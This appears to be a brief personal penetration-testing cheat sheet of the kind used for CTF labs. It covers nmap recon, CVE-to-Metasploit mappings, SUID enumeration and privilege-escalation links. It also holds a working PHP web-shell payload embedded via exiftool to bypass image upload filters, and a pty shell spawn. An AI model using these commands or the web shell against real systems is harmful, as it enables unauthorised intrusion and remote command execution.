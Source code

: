 # Recon
Scan aggresivly on all ports with OS detection, version detection, script scanning and traceroute and write to file
```
nmap -p- -T4 -oN <outfile> -A <IP>
```

# Metasploit
local_exploit_suggester is really helpfull, but only on x86

## Correlation

Service | CVE | MSF-Module
--- | --- | ---
Samba 3.0.20 | [CVE-2007-2447](https://nvd.nist.gov/vuln/detail/CVE-2007-2447) | exploit/multi/samba/usermap_script
Windows <7| [CVE-2008-4250](https://nvd.nist.gov/vuln/detail/CVE-2008-4250) | exploit/windows/smb/ms08_067_netapi


# FTP
Try 
```
ftp <ip>
```
and use "anonymous" as name.

# Local Priv Esc
https://gtfobins.github.io/

# File-Filter-Busting

```
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' lo.jpg

Exiftool is a great tool to view and manipulate exif-data. Then I had to rename the file

mv lo.jpg lo.php.jpg
```
https://github.com/xapax/security/blob/master/bypass_image_upload.md


# Interactive Python pty
`python3 -c 'import pty; pty.spawn("/bin/sh")'`


# Sticky-Bit
```
find / -user root -perm -4000 -print 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
find / -user root -perm -4000 -exec ls -ldb {} \;
```

# Exploit via Path if SUID-Binary does not use full path
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

# SMB-Enum
enum4linux

# AzureAD
https://github.com/VbScrub/AdSyncDecrypt/releases
https://vbscrub.com/2020/01/14/azure-ad-connect-database-exploit-priv-esc/

# Windows-RPC-Service
https://nmap.org/nsedoc/scripts/nfs-showmount.html
